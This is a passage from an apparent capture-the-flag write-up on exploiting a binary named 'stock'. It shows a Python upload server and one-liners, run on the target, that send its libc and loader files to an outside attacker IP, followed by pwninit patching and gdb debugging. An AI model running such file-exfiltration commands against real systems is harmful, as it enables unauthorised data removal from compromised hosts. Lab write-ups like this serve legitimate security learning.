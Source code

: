 Not to worry though we can just get the libc and ld shared objects from the target and with the help of [pwninit](https://github.com/io12/pwninit) patch the binary:

Start python upload server:

```bash
$ py -m uploadserver
```

Run $TARGET run:

```bash
$ python3 -c 'import requests;requests.post("http://10.10.14.207:8000/upload",files={"files":open("/lib64/ld-linux-x86-64.so.2","rb")})'
$ python3 -c 'import requests;requests.post("http://10.10.14.207:8000/upload",files={"files":open("/lib/x86_64-linux-gnu/libc.so.6","rb")})'
```

Put the stock binary and the downloaded libc files into one directory and run `pwninit`. Now we can run `stock_patched` and attach gdb to it:

```bash
$ gdb stock_patched
```

![gdb open with stock_patched loaded](Assets/gdb_stock_patched.jpg)

If your gdb doesn’t look as fancy as mine install [GEF](https://github.com/hugsy/gef). Let’s break on the dlopen call:

```
b dlopen
```
